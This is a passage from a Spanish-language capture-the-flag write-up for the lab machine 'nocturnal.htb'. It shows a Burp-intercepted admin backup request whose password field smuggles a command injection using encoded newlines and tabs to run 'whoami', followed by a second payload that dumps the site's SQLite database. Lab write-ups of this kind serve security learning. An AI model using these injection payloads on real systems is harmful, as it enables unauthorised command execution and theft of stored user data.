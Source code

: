 ```php
        header('Location: login.php');
        exit();
    } else {
        $error = 'Failed to register user.';
    }
}
?>
```

**Interceptamos** con Burp la petición del backup:

```http
POST /admin.php HTTP/1.1
Host: nocturnal.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://nocturnal.htb
Connection: keep-alive
Referer: http://nocturnal.htb/admin.php
Cookie: PHPSESSID=[REDACTED]
Upgrade-Insecure-Requests: 1
Priority: u=0, i

password=%0Abash%09-c%09"whoami"%0A&backup=
```

vemos nada mas ni nada menos que una base de datos, entonces, intentemos interceptar la peticion que hace burp suite cuando queremos descargar el backup

![whoami-www-data](/assets/img/nocturnal-easy/Pasted%20image%2020250823154821.png)

Efectivamente si lo hay respondiendonos del usuario www-data

ahora veremos la base de datos

```bash
password=%0Abash%09 c%09"sqlite3%09/var/www/nocturnal_database/nocturnal_database.db%09.dump"%0A &backup=
```
